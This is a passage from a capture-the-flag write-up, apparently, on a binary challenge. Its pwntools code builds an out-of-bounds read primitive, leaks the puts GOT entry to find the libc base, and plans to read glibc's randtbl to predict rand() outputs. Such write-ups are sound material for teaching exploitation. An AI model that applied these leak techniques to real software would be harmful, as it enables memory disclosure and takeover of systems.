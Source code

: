 ```
LUCKY_NUMBERS = 0x00404040

def read4(addr):
    idx = (addr - LUCKY_NUMBERS) // 4
    io.sendline(str(idx).encode())
    return int(io.readline().decode().split(" ")[-1]) & 0xffffffff

def read8(addr):
    return read4(addr) | (read4(addr + 4) << 32)
```

Note that we can only perform up to 21 useful `read4` calls ( or 10 useful `read8` calls ) as a result of only being allowed to read 4 bytes 21 times.

### Getting LIBC Base

Using the `read8` primitive we created above its enough to simply read the value of `puts` from the GOT and compute the libc base address using the known `puts` symbol address from the version of libc used on the remote:

```
GOT_PUTS = 0x00403f90
puts = read8(GOT_PUTS)
libc = ELF("./libc.so.6")
libc.address = puts - libc.sym["puts"]
```

### Predicting The Output Of Rand

In order to get the flag we must predict correctly the output of 7 sequential calls to `rand` following a call to `srand` with an uknown seed.

To do this we have to use our read primitive, combined with knowledge about the current base address of libc, to leak the internal state of libc's prng. We can then use this to compute the series of values much like libc will do.

The state we are intersested in is stored in a table called `randtbl`. Note that the first value in the table indicates the type of prng behaviour in use. We can test for this `3` during exploit development to ensure that we have the correct address, and libc base, and that the remote is using `TYPE_3` as we expect.

https://github.com/lattera/glibc/blob/895ef79e04a953cac1493863bcae29ad85657ee1/stdlib/random.c#L146

```
static int32_t randtbl[DEG_3 + 1] =
{
    TYPE_3,

    -1726662223, 379960547, 1735697613, 1040273694, 1313901226,
    1627687941, -179304937, -2073333483, 1780058412, -1989503057,
    -615974602, 344556628, 939512070, -1249116260, 1507946756,
    -812545463, 154635395, 1388815473, -1926676823, 525320961,
    -1009028674, 968117788, -123449607, 1284210865, 435012392,
    -2017506339, -911064859, -370259173, 1132637927, 1398500161,
    -205601318,
};
```
